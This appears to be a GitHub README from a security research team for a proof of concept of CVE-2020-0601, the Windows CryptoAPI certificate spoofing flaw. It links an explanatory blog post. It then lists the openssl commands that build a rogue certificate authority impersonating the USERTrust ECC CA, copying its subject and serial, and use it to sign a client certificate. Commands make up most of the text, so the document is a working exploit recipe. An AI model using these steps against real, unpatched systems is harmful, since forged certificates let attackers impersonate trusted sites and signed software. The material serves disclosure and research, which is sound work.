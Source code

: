 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation. More information in our [blog post](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc).

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt)

Key template:
```bash
$ openssl ecparam -name secp384r1 -genkey -noout -out p384-key.pem -param_enc explicit
```

To generate a private key which match the public key certificate we used the script **gen-key.py** (works with Python 3.6 and above). Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
```

With "C = US, ST = New Jersey, L = Jersey City, O = The USERTRUST Network, CN = USERTrust ECC Certification Authority" parameters

Then we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```
